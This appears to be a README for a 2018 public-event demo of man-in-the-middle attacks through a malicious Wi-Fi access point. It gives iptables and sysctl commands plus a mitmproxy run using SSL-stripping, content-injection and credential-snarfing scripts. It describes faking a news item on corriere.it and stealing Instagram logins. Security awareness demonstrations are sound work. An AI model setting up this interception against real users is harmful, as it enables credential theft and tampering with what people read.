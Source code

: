 Punti Deboli
============
Demo for VenetoNight 2018 involving MITM on several websites to showcase classic network attacker's capabilities


Setup
-----
Laptop is required to be connected using the eth adapter and serve a malicious AP using a compatible wifi card. NetworkManager is enough to setup the AP.

### Low-level netowrk setup

Enable ip forward

	# sysctl -w net.ipv4.ip_forward=1

Disable ICMP redirects

	# sysctl -w net.ipv4.conf.all.send_redirects=0

Apply firewall rules to enable transparent proxy (consider using appropriate names for the network devices)

	# iptables -t nat -I PREROUTING -i wlp2s0 -p tcp --dport 80 -j REDIRECT --to-port 8080
	# iptables -t nat -I PREROUTING -i wlp2s0 -p tcp --dport 443 -j REDIRECT --to-port 8080
	# iptables -t nat -I POSTROUTING -o enx00e04c68a1d8 -j MASQUERADE


### Proxy

Install [mitmproxy](https://mitmproxy.org/)

	$ virtualenv -p /usr/bin/python3 venv
	$ . venv/bin/activate
	(venv) $ pip install mitmproxy

Run it with the provided scripts

	(venv) $ mitmweb --showhost --mode transparent -s scripts/sslstrip.py -s scripts/flip.py -s scripts/instasnarf.py -s scripts/fake.py

Or you can use `mitmdump -q -w /dev/null ...` to supress output log and avoid to spawn a browser instance.


Demo
----
Users are asked to access some websites, leading to different outcomes:

* any website using HTTP or HTTPS without HSTS: images are rotated of 180 deg. Few examples: http://www.italia.it, http://www.governo.it.
* corriere.it: although the site is in HTTPS, we add one fake news about c00kies doing a nasty hack against the The Pentagon
* instagram.com: even if it's one of the top websites and it support HTTPS, it does not implement HSTS so it's possible to steal login credentials